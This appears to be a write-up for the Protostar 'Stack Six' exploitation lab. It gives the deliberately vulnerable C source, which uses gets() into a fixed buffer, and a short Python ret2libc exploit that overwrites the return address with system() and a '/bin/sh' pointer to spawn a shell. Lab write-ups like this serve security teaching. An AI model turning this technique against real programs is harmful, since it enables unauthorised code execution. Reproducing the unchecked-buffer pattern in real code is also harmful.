

# Stack Six

## Description

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

## Exploit script

```python
from struct import pack

payload =  "A"*80
payload += pack("I", 0xb7ecffb0)    # `system` in libc
payload += "BBBB"                   # fake ret
payload += pack("I", 0xb7fb63bf)    # ptr -> `/bin/sh\x00`
print(payload)
```

Level passed!

<p align="center">
    
</p>